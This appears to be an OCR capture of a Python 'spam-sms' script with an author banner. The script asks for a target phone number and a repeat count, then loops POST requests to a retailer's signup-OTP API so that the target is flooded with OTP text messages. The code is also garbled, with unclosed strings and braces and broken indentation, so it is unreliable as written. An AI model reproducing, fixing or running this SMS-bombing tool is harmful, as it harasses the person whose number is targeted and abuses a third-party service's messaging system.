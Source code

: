 import json
import requests
import sys
import os
def main():
        os.system('clear')
        os.system('figlet spam-sms')
        banner='''


        [+]AUTHOR :Rifal di
        [+]Facebook :Dani gamteng
        '''

        print(banner)
        no = input('target : ')
        jum = input('jumlah spam : ')

        head = {
        "User-Agent": Mozilla/5.0 (Linux; Android 10; SM-A107F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.101 Mobile Safari/537.36",
            "Referer": "https://www.mapclub.com/en/user/signup",
            "Host": "cmsapi.mapclub.com",
                    }


        dat = {
        'phone' : no

        for x in range(int(jum)):
                leosureo = requests.post("https://cmsapi.mapclub.com/api/signup-otp", headers=head, json=dat)
        if 'eror' in  leosureo :
        print('gagal mengirim' +  no)
else :
         print('succses mengirim' +  no)

